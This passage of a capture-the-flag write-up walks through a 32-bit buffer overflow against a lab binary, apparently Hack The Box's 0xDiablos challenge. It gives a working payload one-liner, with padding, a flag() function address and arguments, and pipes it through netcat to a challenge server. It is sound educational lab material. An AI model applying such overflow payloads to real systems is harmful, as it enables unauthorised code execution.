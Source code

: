 The formatting of the hex values is odd so I had to do some research into actually crafting the payload. I initially came up with something like this 

`Python3 –c 'print("7" * 184 +  "\xe2\x91\x04\x08" +  "\xef\xbe\xad\xde\x0d\xd0\xde\xc0")' | ./vuln ` 

but it didn't work for a number of reasons.

![Didn't Work](docs/assets/images/HTB/diablos/diablos26.png)

After spending some time on google trying to figure out a reason what exactly I was missing it turned out to be a lot. I was able to find a payload [here](https://www.bmwalsh.net/hack-the-box/beginner-track/you-know-0xdiablos) that did work.

`python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 188 + b"\xe2\x91\x04\x08" + b"DUMB\xef\xbe\xad\xde\x0d\xd0\xde\xc0")' | ./vuln `

![Did work](docs/assets/images/HTB/diablos/diablos27.png)

so to break it down `python3 -c` calls python3 and tells it to execute statements as a command. `import sys;` imports the *sys* library, and `sys.stdout.buffer.write` is used because in python3 all strings are encoded in unicode and the print funciton does not print binary data. So stdout's underlying binary buffer must be written to, it's representation has to be used which looks like *b"example_text"*. 

`(b"A" * 188 + b"\xe2\x91\x04\x08" + b"DUMB\xef\xbe\xad\xde\x0d\xd0\xde\xc0")'`
Tells python to write the binary representation of the string "A" 188 times, which is to cause the *segmentation fault* then write the hex value that represents the *flag()* functions location to call it and then finally feed it the 2 parameters found earlier.

*DUMB* represents a *dummy* return address without which the program wouldn't know where to return to. 

Why 188 and not 184? Because that's actually the location of the *EIP registers pattern offset*. An EIP register contains the address of the next instruction to be executed. So without going too much into something I don't understand myself the point at which the input for the vuln() function will overflow into the next EIP register to accept the command to call the flag() function is actually 188 and not 184.

Finally the program said the payload needs to be sent server side which can be done with *netcat*. So the final payload looks like this.

`python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 188 + b"\xe2\x91\x04\x08" + b"DUMB\xef\xbe\xad\xde\x0d\xd0\xde\xc0")' | nc 161.35.173.232 31428 `

